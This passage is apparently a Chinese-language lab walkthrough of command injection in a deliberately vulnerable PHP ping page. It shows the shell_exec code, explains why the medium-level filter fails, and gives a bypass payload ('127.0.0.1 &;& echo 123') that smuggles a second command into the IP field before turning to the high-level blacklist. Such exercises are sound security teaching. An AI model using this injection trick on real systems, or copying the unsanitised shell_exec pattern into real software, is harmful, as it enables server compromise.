 ```php
    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```

只針對 && 和 ;做過濾，所以其他還是可以用的

我們這次就來針對本題的繞過:

這種字串型的很好繞過
```
&;& 
//; 轉為空

又變成

&&

```

payload
```
127.0.0.1 &;&  echo 123
```










## high


```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',   //關鍵點
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',   // 關鍵點
    );

    // Remove any of the charactars in the array (blacklist).
```